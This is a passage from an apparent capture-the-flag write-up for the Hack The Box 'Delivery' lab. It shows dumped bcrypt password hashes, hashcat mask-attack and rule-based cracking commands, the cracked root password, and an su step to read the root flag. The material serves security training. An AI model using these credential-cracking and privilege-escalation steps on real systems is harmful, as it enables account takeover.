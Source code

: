   | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
  | ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
  | channelexport                    |                                                              |
  | 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
  +----------------------------------+--------------------------------------------------------------+

The hashes looks like bcrypt, so we use mode 3200 for cracking.
https://hashcat.net/wiki/doku.php?id=example_hashes

3. We probably only need the root hash, however I save all of them. Setup hashcat and start cracking!

From the hints in MatterMost earlier, one part of the password is probably 'PleaseSubscribe!', we can easily try this
with a mask attack - working our way up one letter at the time.

root@nidus:/git/htb/delivery# hashcat -m3200 root.hash -a3 PleaseSubscribe?a?a?a
  --- snip ---
  $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21

  Session..........: hashcat
  Status...........: Cracked

Another maybe solution would be to use rules;
[root:/git/htb/delivery]# hashcat -a0 -m3200 root.hash PleaseSubscribe.txt -r d3adhob0.rule

maildeliverer@Delivery:/opt/mattermost/data$ su
  Password: PleaseSubscribe!21
root@Delivery:/opt/mattermost/data# cat /root/root.txt
  4162b5f3180d82b27627f957f4664c2c


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Hashcat Mask Attack:
  https://hashcat.net/wiki/doku.php?id=mask_attack#examples
